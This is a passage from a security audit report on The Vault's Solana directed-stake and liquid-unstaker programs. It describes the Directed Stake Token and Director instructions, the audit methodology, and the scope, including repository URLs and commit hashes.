- It is used to update the pool’s fee settings.

<a name="directed-stake-token"></a>

#### Directed Stake Token

**create_dst** 
- The instruction initializes a Directed Stake Token (DST) with specified parameters, establishing its core functionality and governance. 
- Key parameters include: 
    - `token_mint` - the DST's PDA mint account
    - `operator` - holds the ability to update the `partner`, `stake_target`, `base_fee`, and `operator_fee`
    - `stake_target`  - identifies the vote account for delegation and is modifiable by the `operator`.
    - `partner` - allows the validator to withdraw fees. 
- Fee structures include
    - `base_fee` - the base fee
    - `operator_fee`- percentage of the partner's fees.

**set_Stake_target** 
- Only the `operator` can call this instruction. 
- Sets the stake target, i.e. the validator to whom the deposited vSOL amount shall be staked.

**set_partner** 
- Only the `operator` can call this instruction. 
- Sets the `partner` address of the DST.

**set_base_fee** 
- Only the `operator` can call this instruction. 
- Sets the `base_fee` PCT of the DST

**set_operator_fee** 
- Only the `operator` can call this instruction. 
- Sets the `operator_fee` PCT of the DST

**burn** 
- Burns the DST for the underlying token. The DST is burned in the process, and vSOL will be instantly sent to the wallet specified by the caller.

**mint** 
- Mints a DST from vSOL. The DST will be minted to the wallet specified by the caller.

<a name="directed-stake"></a>

#### Directed Stake

**init_director** 
- Initializes the `Director` account. 
- The purpose of this account is to hold the stake target. 

**close_director** 
- Closes the `Director` account.

**set_stake_target** 
- Instruction sets the stake target account. 

<a name="methodology"></a>

## Methodology
The security audit of The Vault protocol was conducted using a systematic and thorough approach to static code analysis. The primary focus of this audit was to assess the protocol’s source code to identify vulnerabilities or potential risks, ensuring the safety and security of depositor assets. The methodology involved the following steps:
1. A comprehensive review of the program's source code was performed, emphasizing the functionality and logic related to the core features of The Vault. Particular attention was given to the management of funds, such as deposits, withdrawals, and fee calculations, to validate the correctness of these critical operations.
2. The program's logic was reviewed to confirm alignment with the intended operational specifications of The Vault. This included a detailed evaluation of scenarios where user assets interact with the protocol, such as stake delegation, fee collection, and fund deposits and withdrawals.
3. Attention was given to the protocol's use of Program Derived Addresses (PDAs) and account management to ensure secure handling of access to the program's critical accounts.
4. Any identified vulnerabilities or areas of concern were documented, categorized by severity, and supplemented with actionable recommendations for remediation. The emphasis was placed on providing practical advice to enhance the security posture of the protocol.

<a name="scope-and-objectives"></a>

## Scope and Objectives

The primary objectives of the audit are defined as:
- Minimizing the possible presence of any critical vulnerabilities in the program. This would include detailed examination of the code and edge case scrutinization to find as many vulnerabilities. 
- 2-way communication during the audit process. This included for Mad Shield to reach a perfect understanding of the design of the system and the goals of the team.
- Provide clear and thorough explanations of all vulnerabilities discovered during the process with potential suggestions and recommendations for fixes and code improvements. 
- Clear attention to the documentation of the vulnerabilities with an eventual publication of a comprehensive audit report to the public audience for all stakeholders to understand the security status of the programs. 

The Vault has delivered the program to Mad Shield at the following Github repositories.
1. Directed-Stake
    - Repo URL: https://github.com/SolanaVault/directed-stake
    - Commit (start of audit): `df148833f12f148844ccc34d1cb3494a08ea1d9c`
    - Commit (end of audit): `74417126222dc3dd472a8572f10bb3cf9ecdbf73`
2. Liquid-Staker
    - Repo URL: https://github.com/SolanaVault/liquid-unstaker
    - Commit (start of audit): `fe4eb244e336b8cd7408822d7a0a9e97d51cbb76`
    - Commit (end of audit): `6228c787c51ae7bf896f98ef31e8b3b3328b7f91`

<a name="references"></a>

## References

[1] https://blog.openzeppelin.com/a-novel-defense-against-erc4626-inflation-attacks